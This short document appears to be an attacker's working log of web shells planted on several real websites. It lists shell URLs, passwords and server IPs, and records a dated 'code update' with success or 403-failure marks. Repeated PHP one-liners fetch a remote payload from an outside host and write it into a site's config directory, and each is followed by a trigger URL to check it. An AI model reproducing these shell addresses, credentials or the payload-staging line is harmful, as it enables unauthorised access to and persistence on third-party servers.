 http://www.xym08.com/dd.php |大马 |大马 | 124.223.225.9
http://1.iottry.com/dd.php |大马 |大马 | 101.200.91.63

http://wxnccl.com/static/upload/image/20231117/m22.php |mmk123 |  121.40.99.41
代码更新：0608 ✅
http://wxnccl.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://wxnccl.com/config/httpd.php?d=up

https://www.xscea.org.cn/static/upload/file/20220730/m22.php |mmk123 |  116.62.68.196
代码更新：0608   失败 403
https://www.xscea.org.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.xscea.org.cn/config/httpd.php?d=up

http://www.jsqrjsyxgs.com/static/upload/image/20220506/m22.php |mmk123 |  1.94.48.90
代码更新：0608 ✅
http://www.jsqrjsyxgs.com/rewrite/httpd.php
